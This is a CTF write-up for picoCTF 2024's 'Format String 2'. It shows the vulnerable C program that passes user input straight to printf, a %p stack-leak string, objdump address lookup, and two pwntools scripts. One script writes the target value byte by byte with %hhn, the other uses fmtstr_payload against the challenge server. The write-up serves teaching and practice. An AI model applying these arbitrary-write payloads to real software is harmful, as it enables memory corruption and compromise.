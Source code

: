 ```yaml
---
title: picoCTF - 2024 - Pwn - Format String 2 
date: '2024-04-16'
tags: ['pwn', 'fmt', 'arbitrary-write', 'picoctf']
draft: false
summary: Overwriting a variable using the Format String Bug to fulfill an if-else condition for printing flag.txt. A very interesting challenge, to be honest.
---
```

## Challenge Description

![Fmt-2-sc](/static/writeups/picoCTF/format-string-2/fmt2_chal_des.png)

## Solution

Before starting, I want to say that I am not an expert when it comes to binary exploitation. If you find mistakes in my write-ups, please let me know. I am open to any sort of constructive criticism

Source code provided to us:
```c:vuln.c
#include <stdio.h>

int sus = 0x21737573;

int main() {
  char buf[1024];
  char flag[64];

  printf("You don't have what it takes. Only a true wizard could change my suspicions. What do you have to say?\n");
  fflush(stdout);
  scanf("%1024s", buf);
  printf("Here's your input: ");
  printf(buf);
  printf("\n");
  fflush(stdout);

  if (sus == 0x67616c66) {
    printf("I have NO clue how you did that, you must be a wizard. Here you go...\n");

    // Read in the flag
    FILE *fd = fopen("flag.txt", "r");
    fgets(flag, 64, fd);

    printf("%s", flag);
    fflush(stdout);
  }
  else {
    printf("sus = 0x%x\n", sus);
    printf("You can do better!\n");
    fflush(stdout);
  }

  return 0;
}
```

We want to make this if-statement true:

```c:If-Condition
if (sus == 0x67616c66)
```

But problem is the value of sus is `0x21737573`. So to solve this challenge, we basically have to overwrite the value of **`sus`** to `0x67616c66`.

As **`printf()`** is being used, we can use **`%n`** format specifier to overwrite value of sus. 

The **`%n`** modifier writes the amount of chars printed so far as an int to the address specified by the argument. Using the **`$`** specifier we could also specify from exactly where we want to read this address. We could also send the addresses as input to the program which would put those addresses on the stack.

First we want to find the offset of our input string on the stack. For that, i will pass 8 ‘A’ and will leak the addresses of the stack so that I can clearly see where the input is being stored:

```
AAAAAAAA|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p
```

Here I can see that my offset is 14:

![Fmt-2-sc](/static/writeups/picoCTF/format-string-2/fmt2_1.png)

Now, I know that I also need to know what address to write to. In this case it can be found using **`objdump`** on the binary:

```bash:objdump-command
objdump -D ./vuln | grep "sus"
```

So, basically I want to overwrite address `0x404060` with the value `0x67616c66`. Let’s start making our payload.

For creating the payload, I took help from a Guide on [Format String Bug](https://www.theflash2k.me/blog/ctf-techs/fsb-guide) written by my mentor [TheFlash2k](https://www.theflash2k.me/about). He has explain fmt in very detail.

He has also explain how to arbitrary write 4-bytes by passing one byte at a time. **[** *[Source](https://www.theflash2k.me/blog/ctf-techs/fsb-guide#writing-four-bytes)* **]**

So the final payload that I created:

```python:final-payload
#!/usr/bin/env python3
from pwn import *

# Setting up terminal context for debugging
context.terminal = ["tmux", "splitw", "-h"]

# Executable and ELF setup
exe = "./vuln"
elf = context.binary = ELF(exe)

# If the GDB argument is provided, attach GDB to the process at the specified breakpoint
if args.GDB:
    io = process()
    gdb.attach(io, "b *main+231")

io = remote("rhea.picoctf.net", 61208)
io.recvuntil(b"?\n")

# Offset = 14
# 14 (Offset) + 5 (For payload) + 1 (Address to be written on)
start = 20

# Address of the variable to be overwritten, found using objdump and grep
sus = 0x404060

# Function to calculate the difference between two values modulo 256
diff_hhn = lambda i, j: ((i - j) % 256) # (0xFF+1)

payload = f"%{0x66}c%{start}$lln".encode()            # Writing 0x66 to memory
payload += f"c%{start+1}$hhn".encode()                # Writing 0x66 to sus[0]
payload += f"%{diff_hhn(0x66,0x61)}c%{start+2}$hhn".encode()  # Writing 0x61 to sus[3]
payload += f"%{diff_hhn(0x61,0x6c)}c%{start+3}$hhn".encode()  # Writing 0x6c to sus[2]
payload += b"||||||"                                  # Padding to align memory addresses
payload += p64(sus)                                   # Address of sus
payload += p64(sus+3)                                 # Address of sus[3]
payload += p64(sus+1)                                 # Address of sus[1]
payload += p64(sus+2)                                 # Address of sus[2]

io.sendline(payload)
io.interactive()
```
### Flag:

![Fmt-2-sc](/static/writeups/picoCTF/format-string-2/fmt2_3.png)

## Bonus

You can automate this whole process by using format string bug exploitation [tools](https://docs.pwntools.com/en/stable/fmtstr.html). The script will be:
```python:payload-crafted-using-exec_fmt-&-autofmt
from pwn import *

context.log_level = "critical"

context.terminal = ["tmux", "splitw", "-h"]
exe = "./vuln"
elf = context.binary = ELF(exe)
if args.GDB: gdb.attach(io, "b *main+231")

#io = process()
io = remote("rhea.picoctf.net", 61208)

def exec_fmt(payload):
    io = remote('rhea.picoctf.net', 61208)
    io.sendline(payload)
    return io.recvall()

autofmt = FmtStr(exec_fmt)
offset = autofmt.offset

payload = fmtstr_payload(offset, {0x404060: 0x67616c66})

io.sendline(payload)

flag = io.recvuntil('}').split(b"...\n")[1]
flag = flag.decode('utf-8')

print(" ")
print("Flag:", flag)
print(" ")

io.interactive()
```

This script uses the `exec_fmt`, `autofmt` to find the offset for the payload and to find the address use `objump -D vuln` (as we did earlier).

### Flag:

![Fmt-2-sc](/static/writeups/picoCTF/format-string-2/fmt2_4.png)

> *That’s it for today’s blog, take Care* 😃